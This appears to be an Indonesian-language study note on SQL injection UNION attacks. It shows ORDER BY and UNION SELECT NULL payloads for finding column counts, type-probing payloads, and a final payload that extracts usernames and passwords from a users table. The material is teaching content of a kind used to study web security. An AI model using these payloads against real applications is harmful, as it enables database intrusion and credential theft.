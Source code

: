 # SQL Injection
#teknik #sqli

## Basic

## UNION Attack
Dengan UNION, kamu dapat mengambil isi data dari tabel lain di dalam satu database.

`SELECT a, b FROM table1 UNION SELECT c,d FROM table2`
Perintah diatas menampilkan isi dari kolom a dan b pada table1 dan kolom c,d pada table2.

Supaya query UNION dapat bekerja, syaratnya adalah:
1. Tiap query harus menghasilkan jumlah kolom yang sama.
2. Tipe data pada tiap kolom harus kompatibel, contoh kolom integer dengan tipe data integer atau kolom integer dengan tipe data NULL (NULL dapat dikonversi ke semua tipe data).

**Untuk mengikuti syarat pertama**:
Saat melakukan UNION attack, kamu harus mengetahui secara persis jumlah kolom yang dihasilkan oleh query aslinya.

Cara yang pertama adalah dengan menggunakan `ORDER BY` sampai sebuah pesan error ditampilkan. 
`' ORDER BY 1 -- `, `' ORDER BY 2 -- `,  `' ORDER BY 3 -- ` 
Contoh pesan error: `The ORDER BY position number 3 is out of range of the number of items in the select list.` yang artinya jumlah kolom yang dihasilkan oleh query aslinya adalah 2 kolom.

Cara yang kedua adalah dengan memasukkan `UNION SELECT` dengan jumlah NULL yang bertambah sampai sebuah pesan error ditampilkan. Cara ini tidak selalu berhasil karena dapat menghasilkan error `NullPointerException`, namun dengan cara ini, terkadang kamu bisa mendapatkan data tambahan di dalam tabel.
`' UNION SELECT NULL -- `, `' UNION SELECT NULL, NULL -- `, `' UNION SELECT NULL, NULL, NULL -- `
Contoh pesan error: `All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.`

**Untuk mengikuti syarat kedua**
Kamu harus mengetahui apakah data yang akan kamu ambil kompatibel dengan kolom yang ada. Umumnya data yang bersifat rahasia disimpan dalam bentuk string, kamu bisa menggunakan `'a'` sebagai perwakilan dari string tersebut.
`' UNION SELECT 'a',NULL,NULL` memastikan bahwa kolom pertama memiliki tipe data string.
`' UNION SELECT NULL,'a',NULL` memastikan bahwa kolom kedua memiliki tipe data string.
`' UNION SELECT NULL,NULL,'a'` memastikan bahwa kolom ketiga memiliki tipe data string.
Contoh pesan error apabila tipe data tidak kompatibel dengan string data: `Conversion failed when converting the varchar value 'a' to data type int.`

Setelah kedua syarat tersebut dipenuhi, barulah action on objective dimulai. Contohnya kamu dapat mengambil username dan password dari database users. Anggap query menghasilkan 3 kolom.
`' UNION SELECT username,password,NULL FROM users -- `

Jika query aslinya hanya menghasilkan 1 kolom, kamu bisa menggunakan concatenation pada SQL Injection.
`' UNION SELECT username || '-' || password FROM users -- `

Hasilnya:
`administrator-admin123`
